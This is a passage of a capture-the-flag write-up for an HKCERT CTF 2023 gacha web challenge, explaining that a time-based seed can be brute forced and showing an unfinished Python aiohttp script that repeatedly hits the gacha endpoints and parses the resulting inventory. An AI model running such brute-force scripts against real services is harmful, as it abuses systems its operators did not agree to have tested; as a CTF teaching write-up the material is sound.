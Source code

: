 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113195739.png)

**Hence, since the `$seed` is time-sensitive, we can just brute force it to try to get UR + SSR >= 20.**

**To do so, I'll write a script using Python:**
```python
import asyncio
import aiohttp
from bs4 import BeautifulSoup
from time import sleep
import re

async def main():
    while True:
        # brute force it with 0.3 seconds delay, 
        # so we won't beat the server to death
        sleep(0.3)
        async with aiohttp.ClientSession() as sess:
            for _ in range(9):
                resp = await sess.get(URL_GACHA1)
                response_body = await resp.text()
            for _ in range(2):
                resp = await sess.get(URL_GACHA10)
                response_body = await resp.text()

            soup = BeautifulSoup(response_body, 'html.parser')
            pTags = soup.find_all('p')
            sessionId = pTags[0].text
            inventory = pTags[2].text

            sessionIdMatch = re.search(r'Your ID is ([a-fA-F0-9]+)', sessionId)
            urMatch = re.search(r'\[UR\] => (\d+)', inventory)
            ssrMatch = re.search(r'\[SSR\] => (\d+)', inventory)

            idValue = sessionIdMatch.group(1)
            urValue = int(urMatch.group(1))
            ssrValue = int(ssrMatch.group(1))

```